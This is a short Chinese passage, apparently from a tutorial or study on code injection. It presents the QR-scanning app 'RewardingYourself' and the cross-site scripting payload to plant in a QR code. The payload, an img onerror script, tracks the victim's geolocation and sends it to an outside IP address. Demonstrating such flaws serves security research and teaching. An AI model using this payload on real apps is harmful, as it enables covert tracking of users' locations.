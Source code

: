 ![enter image description here](img/img13_u30_png.jpg)

### 案例 2：RewardingYourself 应用程序。

扫描二维码的程序，展示使用的 innerHTML，我们在二维码当中插入如下代码：

```
< img src = x onerror =

navigator.geolocation.watchPosition(

function(loc) {

    m = 'Latitude: ' + loc.coords.latitude +

    '\n' + 'Longitude: ' + loc.coords.longitude;

    alert(m);

    b = document.createElement('img');

    b.src = 'http: //128.230.213.66:5556?c='+m })> 

```

